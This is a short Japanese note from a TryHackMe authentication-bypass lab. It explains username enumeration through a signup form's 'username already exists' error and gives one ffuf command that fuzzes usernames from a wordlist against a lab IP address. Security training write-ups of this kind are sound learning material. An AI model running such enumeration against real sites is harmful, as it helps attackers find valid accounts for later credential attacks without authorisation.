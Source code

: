 # TryHackMe - Authentication Bypass
[https://tryhackme.com/room/authenticationbypass](https://tryhackme.com/room/authenticationbypass)

## ユーザ名列挙
- 新規作成フォームで既に存在するユーザ名のエラーが出るのを利用して登録されているユーザを列挙する

```
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.48.216/customers/signup -mr "username already exists"
```